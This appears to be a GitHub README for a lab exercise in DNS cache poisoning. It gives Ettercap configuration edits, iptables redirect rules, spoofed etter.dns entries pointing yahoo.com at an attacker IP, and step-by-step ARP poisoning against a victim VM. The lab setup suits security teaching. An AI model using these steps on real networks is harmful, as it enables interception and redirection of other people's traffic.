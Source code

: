 # dns-cache-poisoning



## REQUIREMENTS

1. virtual box
2. Two virtual machines 
        . we are using kali machine for attacking and windows machine as victim
3. Ettercap Application
4. Apache Server
5. IpTables

## How to install requirements

1. Installing virtual box

     . visit https://www.virtualbox.org/wiki/Downloads and download according to the operating system
        
        
2. Download and install kali machine 64 bit on virtual box using the link provided

     . https://kali.download/virtual-images/kali-2022.1/kali-linux-2022.1-virtualbox-amd64.ova
       follows instruction in the site to install kali machine on virtual box
       https://itsfoss.com/install-kali-linux-virtualbox/
        
3. Installing ettercap on kali
     use below command to install Ettercap application
     
        sudo apt-get install ettercap
        
4. installing apache server
     use following command to install apache server on kali
        
        sudo apt-get install apache2
                
5. install Iptable
     use following command to install iptables on kali
     
        sudo apt-get install iptables
       
# Getting Ready


### Configuring
      
                 
##### Edit Ettercap configuration file
                 
             

We now need to edit the Ettercap configuration file since it is our application of choice for today.
Let's navigate to /etc/ettercap/etter.conf and open the file with a text editor like leafpad and edit the file. 
We can use following command for that.

        leafpad /etc/ettercap/etter.conf

So now we want to edit the uid and gid values at the top to make them say 0 so go ahead and do that.


       ############################################################################

        [privs]
        ec_uid = 0               # nobody is the default
        ec_gid = 0               # nobody is the default

        [mitm]
        arp_storm_delay = 10          # milliseconds
        arp_poison_smart = 0          # boolean

Now scroll down until you find the heading that says Linux and under that remove both the # signs for the sections below where it says "Linux".



        #---------------
        #     Linux 
        #---------------

           redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

        # pendant for IPv6 - Note that you need iptables v1.4.16 or newer to use IPv6 redirect
           redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

##### Edit Ettercap.dns file

  Edit the domain name to spoof and  edit the IP address to attackers IP address and save the file

        #                                                                          #
        # Sample hosts file for dns_spoof plugin                                   #
        #                                                                          #
        # the format is (for A query):                                             #
         *yahoo.com 		A	 172.20.10.4
         www.yahoo.com 		A	 172.20.10.4
         *.yahoo.com		A	 172.20.10.4	
        #
        #   *.foo.com          A 168.44.55.66 [optional TTL]                       #
        #      
        
##### Run ettercap application

   use folowing command to run Ettercap application from terminal
   
        ettercap -G
        
 1. choose primary interface and click accept on top right corner
 2. click on threen dots on top right to select options
        select Hosts --> Scan for Hosts     
        this will scan for the available devices connected to the network and save it to Hosts List
 3. click on threen dots on top right to select options
        select Hosts --> Hosts List
        it will list the hosts in network found on previous scanning step
 4. Select the victim's IP address and add it to target1 by clicking on "Add to Target1"
 5. select the DNS IP address and add it to target2 by clicking on "Add to Target2"
 6. now Click on Ettercap Menu and select Plugins --> Manage Plugins
        select dns_spoof. now right click and activate plugin
 7. click on man in the MITM Menu on top right corner near Ettercap Menu and select ARP Poisoning. click OK 


#### testing

All set now try accessng the website from victim's Machine.
it'll be redirected to the ip address specified in the etter.dns file

we can use the chk_poison to validate the poisoning
